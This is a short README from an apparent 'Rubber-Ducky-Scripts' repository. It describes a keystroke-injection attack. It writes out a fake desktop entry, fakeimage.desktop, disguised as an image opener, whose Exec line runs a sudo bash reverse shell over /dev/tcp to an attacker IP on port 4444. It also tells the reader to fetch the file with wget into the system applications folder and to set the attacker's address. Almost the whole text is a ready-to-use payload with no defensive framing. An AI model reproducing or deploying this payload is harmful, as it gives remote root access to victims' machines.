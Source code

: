 # Rubber-Ducky-Scripts
## Rubber-Ducky-Scripts
For this project you will need the following files<br> 
**fakeimage.desktop** (Save this file on a remote site or any accessible link - For this project we will use wget to pull this file into the location /usr/local/share/applications/_)

Contents of the file - Include details and save file as fakeimage.desktop
**[Desktop Entry] <br>
Encoding=UTF-8 <br>
Name=Open_Custom_File <br>
Exec=sudo /bin/bash -i > /dev/tcp/192.168.145.146/4444 0<&1 2>&1 <br>
Terminal=true <br>
Type=Application <br>
Icon=notebook** <br>
Change IP Address to attacker machine
